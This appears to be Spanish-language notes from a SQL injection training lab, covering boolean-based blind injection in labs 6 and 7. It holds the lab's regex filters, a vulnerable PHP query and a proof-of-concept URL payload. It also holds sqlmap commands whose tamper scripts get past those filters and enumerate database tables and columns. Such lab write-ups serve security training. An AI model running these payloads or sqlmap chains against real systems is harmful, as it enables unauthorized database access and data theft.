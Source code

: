 ### 6 - Boolean-based blind

* UNION filtrada
* Filtro simbólico (AND && , OR .)
* espacio para el filtro de pestañas verical para eludir el filtro \[espacio]OR

```bash
Filters:
/UNION/i
/AND/i
/ OR/i

Query;
$query = "SELECT views FROM attachments where filename='$entry';";

# SQLMAP

./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=6&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' --tamper="symboliclogical, space2VT.py" \
	--no-cast --threads=10 -v 3 \
	--banner --flush-session 
	
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=6&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' \
	--tamper="symboliclogical, space2VT.py" \
	--no-cast --threads=5 -v 3 \
	-D selfie4you06 -T accounts \	
	--columns 
```

### 7 - Boolean-based blind

* UNION filtrada
* Filtro simbólico (AND && , OR .)
* espacio para el filtro de pestañas verical para eludir el filtro \[espacio]OR

```bash
Filters:
/UNION/i
/AND/i
/ OR/i
/6163636f756e7473/
/selfie4you07.accounts/

Query;
$query = "SELECT views FROM attachments where filename='$entry';";


# PoC
TRUE:	http://hacker.site/2nd/upload.php?lab=7&payload=01.jpg'+%26%26+TRUE;%23


# SQLMAP

./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=7&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' \
	--tamper="symboliclogical, space2VT.py, accounts.py" \
	--no-cast --threads=5 -v 3 \
	--banner --flush-session 
	
	
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=7&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' \
	--tamper="symboliclogical, space2VT.py, accounts.py" \
	--no-cast --threads=5 -v 3 \
```